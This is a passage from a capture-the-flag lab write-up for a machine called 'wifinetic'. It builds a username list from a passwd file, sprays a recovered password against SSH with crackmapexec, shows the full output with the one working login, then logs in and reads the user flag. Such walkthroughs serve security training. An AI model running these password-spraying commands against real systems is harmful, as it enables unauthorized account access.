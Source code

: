 Since we have now a password, we can try to create a list of users based on the `passwd` file, and then try performing a **password-spray attack**:

```bash
# separate the lines using ':' as a delimiter, keep the first field, and write the results on a file
$ cat passwd | cut -d : -f 1 > userList
# display file's content
$ cat userList
root
daemon
ftp
network
nobody
ntp
dnsmasq
logd
ubus
netadmin

# perform a password-spary attack using CME
$ crackmapexec ssh wifinetic -u userList -p 'VeRyUniUqWiFIPasswrd1!'
SSH         wifinetic       22     wifinetic        [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         wifinetic       22     wifinetic        [-] root:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         wifinetic       22     wifinetic        [-] daemon:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         wifinetic       22     wifinetic        [-] ftp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         wifinetic       22     wifinetic        [-] network:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         wifinetic       22     wifinetic        [-] nobody:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         wifinetic       22     wifinetic        [-] ntp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         wifinetic       22     wifinetic        [-] dnsmasq:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         wifinetic       22     wifinetic        [-] logd:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         wifinetic       22     wifinetic        [-] ubus:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         wifinetic       22     wifinetic        [+] netadmin:VeRyUniUqWiFIPasswrd1!
```

Bingo! We can now log into SSH using `netadmin:VeRyUniUqWiFIPasswrd1!`:

```bash
# connect to the SSH server
$ ssh netadmin@wifinetic
# get the user flag!
netadmin@wifinetic:~$ cat user.txt
<SNIP>
```
